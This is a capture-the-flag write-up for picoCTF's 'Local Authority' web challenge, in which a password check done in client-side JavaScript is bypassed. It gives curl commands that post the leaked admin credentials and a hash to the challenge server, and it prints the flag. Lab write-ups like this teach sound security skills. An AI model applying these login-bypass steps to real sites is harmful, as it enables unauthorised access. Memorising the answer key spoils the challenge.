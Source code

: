 # [Local Authority [Web Exploitation] [100 Points]](https://play.picoctf.org/practice/challenge/278?category=1&originalEvent=70&page=1) #

## Description ##
Can you get the flag?
Go to this [website](http://saturn.picoctf.net:64293/) and see what you can discover.

## Hints ##
1. How is the password checked on this website?

## Solution ##

### OPTION 1: Via Web Browser ###

#### Step 1: Description ####
![](images/webpage.png)

![](images/webpage_failed.png)

![](images/webpage_inspectFailed.png)

![](images/webpage_inspectSecure.js.png)

![](images/webpage_login.png)

![](images/webpage_loggedIn.png)

### OPTION 2: Via Kali Linux Terminal ###

        curl -d 'username=admin&password=strongPassword098765' http://saturn.picoctf.net:62954/login.php
* https://everything.curl.dev/http/post/simple.html

![](images/webpage_login.php.png)

        curl -d 'hash=2196812e91c29df34f5e217cfd639881' http://saturn.picoctf.net:62954/admin.php

![](images/webpage_admin.php.png)

        curl -d 'hash=2196812e91c29df34f5e217cfd639881' http://saturn.picoctf.net:62954/admin.php | grep -oE "picoCTF{.*}" | tee >(xsel -b)

![](images/webpage_retrieveFlag.png)

**Result**:

        picoCTF{j5_15_7r4n5p4r3n7_a8788e61}
